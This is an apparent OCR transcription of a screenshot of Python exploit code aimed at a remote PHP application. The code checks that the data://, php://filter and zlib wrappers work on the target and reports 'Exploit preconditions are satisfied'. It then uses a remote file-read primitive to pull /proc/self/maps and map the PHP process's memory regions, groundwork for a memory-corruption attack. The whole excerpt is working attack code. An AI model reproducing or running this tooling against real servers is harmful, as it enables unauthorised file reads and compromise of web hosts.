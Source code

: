 ```python
        if len(set(result).intersection(set(text))) == 0:
            msg_failure("Remote.download did not return the test string")
            print("--------------------")
            print(f"Expected test string: {text}")
            print(f"Got: {result}")
            print("--------------------")
            failure("If your code works fine, it means that the [i]data://[/] wrapper does not work")

        msg_info("The [i]data://[/] wrapper works")

        text = 'GIF89a' + tf.random.string(50)
        base64 = b64(text.encode(), misalign=True).decode()
        path = f"php://filter//resource=data:text/plain;base64,{base64}"
        if not check_token(text, path):
            failure("The [i]php://filter/[/] wrapper does not work")

        msg_info("The [i]php://filter/[/] wrapper works")

        text = 'GIF89a' + tf.random.string(50)
        base64 = b64(compress(text.encode()), misalign=True).decode()
        path = f"php://filter/zlib.inflate/resource=data:text/plain;base64,{base64}"

        if not check_token(text, path):
            failure("The [i]zlib[/] extension is not enabled")

        msg_info("The [i]zlib[/] extension is enabled")

        msg_success("Exploit preconditions are satisfied")

    def get_file(self, path: str) -> bytes:
        with msg_status(f"Downloading [i]{path}[/]..."):
            return self.remote.download(path)

    def get_regions(self) -> list[Region]:
        """Obtains the memory regions of the PHP process by querying /proc/self/maps."""
        maps = self.remote.data_decode(self.get_file("/proc/self/maps"))
        
        PATTERN = re.compile(
            r"^([a-f0-9]+)-([a-f0-9]+)\b" r".*" r"\s([-rwx]{3}[ps])\s" r"(.*)"
        )
        regions = []
        for region in table.split(maps, strip=True):
            if match := PATTERN.match(region):
                start = int(match.group(1), 16)
                stop = int(match.group(2), 16)
                permissions = match.group(3)
                path = match.group(4)
                if "/" in path or "[" in path:
                    path = path.rsplit(" ", 1)[-1]
                else:
                    path = ""
                current = Region(start, stop, permissions, path)
                regions.append(current)
            else:
                failure("Unable to parse memory mappings")

        self.log.info(f"Got {len(regions)} memory regions")

        return regions

    def get_symbols_and_addresses(self) -> None:
        """Obtains useful symbols and addresses from the file read primitive."""
```